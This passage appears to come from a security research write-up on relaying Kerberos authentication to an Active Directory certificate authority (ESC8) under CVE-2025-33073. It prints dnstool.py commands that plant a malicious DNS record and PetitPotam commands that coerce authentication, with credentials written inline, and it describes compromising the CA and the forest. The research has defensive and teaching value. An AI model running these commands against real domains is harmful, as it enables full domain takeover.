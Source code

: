 ## Reflecting to HTTP (ADCS)

> This primitive is not unique to CVE-2025-33073, and is possible as long as Kerberos authentication coercion can be made. See: [here](https://www.thehacker.recipes/ad/movement/kerberos/relay#abuse-from-dns-poisoning)

If we attempt the same relay to the domain controller, we will not be able to perform the relay as the domain controller has SMB signing enabled. The following DNS record was also added:

```
/opt/tools/krbrelayx/dnstool.py -u 'jess.kingdom\Doros_ARCHIVON' -p 'bO3n21E6rc' 10.3.20.31 -a 'add' -r 'palace-dc1UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAwbEAYBAAAA' -d '198.51.100.5'
```

![](./assets/img/sysadmin/Yet05Qi.png)

Traditionally, it's not been possible to abuse ESC8 to compromise the Certificate Authority (CA) as the HTTP enrollment endpoint is on the CA - and that would be a violation of the "no self-relay" rule. 

However, as mentioned briefly in [the previous blog post](https://blog.async.sg/sincon-2025-adcs-relay.html) - you can still relay to ESC8 using Kerberos. In addition to that, relaying with Kerberos breaks the "no self-relay" rule, as it does not contain a MIC. This allows us to compromise the `CA`, and the entire forest shortly after.

### Reflecting to Certificate Authority (Self-Relay)

Using the same technique as before, we can coerce Kerberos authentication to the domain controller using the malicious DNS record:

```
/opt/tools/PetitPotam/PetitPotam.py -d 'jess.kingdom' -u 'Doros_ARCHIVON' -p 'bO3n21E6rc' palace-dc1UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAwbEAYBAAAA palace-dc.jess.kingdom
```
